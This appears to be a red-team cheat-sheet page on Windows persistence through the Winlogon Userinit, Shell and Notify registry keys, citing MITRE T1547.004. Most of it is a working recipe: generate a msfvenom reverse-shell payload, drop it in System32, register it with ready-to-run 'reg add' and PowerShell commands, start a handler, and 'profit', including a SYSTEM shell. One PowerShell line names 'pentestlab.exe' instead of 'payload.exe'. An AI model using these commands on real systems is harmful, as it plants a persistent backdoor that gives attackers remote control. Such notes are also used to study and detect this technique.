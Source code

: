 # Winlogon Helper DLL

> Winlogon is a Windows component which handles various activities such as the Logon, Logoff, loading user profile, etc. It is managed by the registry which defines which processes to start during Windows logon. These events can be the trigger that will execute an arbitrary payload for persistence.

Requires modification of the following registry keys:

```bash
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Userinit registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the userinit registry key to include our payload. Final version will be (C:\Windows\System32\userinit.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

4. Start a handler.
5. Profit.

### Shell registry:

1. Generate a reverse shell payload using msfvenom (.exe format).
2. Drop that payload into the "System32" folder.
3. Modify the shell registry key to include our payload. Final version will be (C:\Windows\System32\explorer.exe, payload.exe)

```bash
#cmd:
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f

#powershell:
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, pentestlab.exe" -Force
```

4. Start a handler.
5. Profit.

### Notify registry (older Windows versions):

> Typically found in older operating systems (prior to Windows 7). It points to a notification package DLL file which handles Winlogon events.

1. Generate a reverse shell payload using msfvenom (.dll format).
2. Drop that payload into the "System32" folder.
3. Replace the notify registry key with our payload.
4. Profit a SYSTEM shell.

_____

More info at [MITRE-T1547](https://attack.mitre.org/techniques/T1547/004/)
